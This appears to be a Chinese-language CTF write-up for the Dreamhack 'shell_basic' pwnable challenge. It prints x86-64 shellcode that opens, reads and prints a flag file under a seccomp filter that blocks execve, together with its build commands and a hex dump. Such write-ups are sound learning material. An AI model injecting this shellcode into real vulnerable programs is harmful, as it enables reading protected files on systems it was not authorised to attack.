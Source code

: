 ```yaml
---
title: shell_basic
published: 2025-07-10
description: "Dreamhack"
image: ""
tags: ["CTF writeup", "Dreamhack", "pwnable"]
category: "Dreamhack"
draft: false
lang: ""
---
```


# shell_basic

[題目連結](https://dreamhack.io/wargame/challenges/410)

這一題限制在 10 內完成

seccomp (secure computing mode) 增加的規則會封鎖 `execve` 和 `execveat`

題目說 flag 在 `/home/shell_basic/flag_name_is_loooooong`

找 chatgpt 生 shellcode (這應該不會是需要自己刻的東西...吧)

```asm
section .text
global _start

_start:
    ; open(path, 0)
    mov rax, 2
    lea rdi, [rel path]
    xor rsi, rsi
    syscall

    ; read(fd, rsp, 100)
    mov rdi, rax        ; fd
    mov rsi, rsp        ; buffer
    mov rdx, 100
    xor rax, rax        ; syscall: read
    syscall

    ; write(1, rsp, 100)
    mov rdi, 1          ; stdout
    mov rax, 1          ; syscall: write
    syscall

    ; exit(0)
    mov rax, 60
    xor rdi, rdi
    syscall

path:
    db "/home/shell_basic/flag_name_is_loooooong", 0
```

```bash
nasm -f elf64 flag.asm -o flag.o
objcopy --dump-section .text=flag.bin flag.o
xxd flag.bin

00000000: b802 0000 0048 8d3d 2b00 0000 4831 f60f  .....H.=+...H1..
00000010: 0548 89c7 4889 e6ba 6400 0000 4831 c00f  .H..H...d...H1..
00000020: 05bf 0100 0000 b801 0000 000f 05b8 3c00  ..............<.
00000030: 0000 4831 ff0f 052f 686f 6d65 2f73 6865  ..H1.../home/she
00000040: 6c6c 5f62 6173 6963 2f66 6c61 675f 6e61  ll_basic/flag_na
00000050: 6d65 5f69 735f 6c6f 6f6f 6f6f 6f6e 6700  me_is_loooooong.
```

![flag](/assets/dreamhack/shell_basic/image.png)
